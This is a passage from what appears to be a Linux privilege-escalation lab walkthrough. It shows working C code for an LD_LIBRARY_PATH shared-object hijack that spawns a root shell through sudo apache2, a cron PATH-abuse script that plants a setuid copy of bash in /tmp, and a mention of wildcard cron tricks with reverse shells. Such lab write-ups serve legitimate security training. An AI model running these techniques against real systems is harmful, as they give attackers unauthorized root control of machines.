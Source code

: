 Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:
```C
$Code for library path
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

```bash
root@gr4n173:~$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Run apache2 using sudo, while settings the LD\_LIBRARY\_PATH environment variable to /tmp (where we output the compiled shared object):

```bash
root@gr4n173:~$ sudo LD_LIBRARY_PATH=/tmp apache2
```

A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again.

## 5. Cron Jobs
### Environment Variable

view the contents of the system-wide crontab: `cat /etc/crontab`

Note: the PATH variable starts with `/home/users` which is our user's home directory
```bash
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```


Now giving the permission to `overwrite.sh` file as `+x` so that crontab run everytime.

### Wildcards
If any command is run with a wildcard(\*) in home directory then we can use wildcard bypass technique in cron job. For that we have to generate the reverse_shell and then used shell to break out from restricted environments by spawing an interactive system shell.
`generate the shell`
